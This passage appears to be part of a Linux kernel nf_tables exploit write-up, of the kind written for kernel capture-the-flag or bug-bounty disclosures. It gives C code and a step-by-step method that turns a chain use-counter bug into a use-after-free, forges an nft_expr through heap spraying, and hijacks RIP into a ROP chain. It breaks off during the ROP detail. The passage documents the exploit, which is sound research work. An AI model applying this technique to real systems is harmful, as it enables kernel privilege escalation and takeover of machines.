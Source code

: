 ```c
void new_setelem_with_expr_and_elemdata(struct nl_sock * socket,char *table_name, char *set_name, void *elemdata, uint32_t elemdata_len, char *obj_ref, char * input_key, int key_len, char *key_end, int key_end_len){
	...
	if(elemdata > 0){
        nla_put(elem_data, NFTA_DATA_VALUE, elemdata_len, elemdata);
		nla_put_nested(elem_nest, NFTA_SET_ELEM_DATA, elem_data);
    }
	...
```

I control the RIP by the following steps:
- 1. Create a chain for ROP(`chain X`). The size is 0x78 and it uses kmalloc-128.
- 2. Create 0x20 set elements wihch use `chain X` created in step 1. After step2, we will set `chain X->use = 0x20`
- 3. Call `primitive_1` 0x20 times, finally making `chain X->use = 0`
- 4. Delete `chain X`
- 5. Create 0x1000 new set elements. These new elements are carefully constructed so that the `size` field representing the length of `NFT_SET_EXT_EXPRESSIONS` is exactly at the position of `chain X->use`.
- 6. Delete all the set elements we created in step 2. The `chain->use` will be set to `0xfffffff0` from `0x10`, which means we change the `size` of `NFT_SET_EXT_EXPRESSIONS` of a set element which we created in step 5. We will change the `size` from `0x10` to `0xfffffff0`. Now we get a fake `nft_expr` expr[1]. We can fill the `ops` and the `data` of the fake expr in `NFTA_SET_ELEM_DATA`. 
- 7. Dump all the set elements we create in step 5. Finally we will jmp to our ROP gadget.
  ```c
	static int nf_tables_fill_expr_info(struct sk_buff *skb,
						const struct nft_expr *expr)
	{
		if (nla_put_string(skb, NFTA_EXPR_NAME, expr->ops->type->name))
			goto nla_put_failure;

		if (expr->ops->dump) {
			struct nlattr *data = nla_nest_start_noflag(skb,
									NFTA_EXPR_DATA);
			if (data == NULL)
				goto nla_put_failure;
			if (expr->ops->dump(skb, expr) < 0) //we hijack RIP here
				goto nla_put_failure;
			nla_nest_end(skb, data);
		}
	...

  ```
### ROP detail

The assembly code when calling expr->ops->dump is as follows:

```
	mov     rax, [rbp+0]
	mov     rsi, rbp
	mov     rdi, rbx
	mov     rax, [rax+40h]
	call    __x86_indirect_thunk_rax
```
So the `rbp` is the pointer of the current `nft_expr`, and it will be the start of `NFTA_SET_ELEM_DATA` when it comes to the fake `nft_expr`:
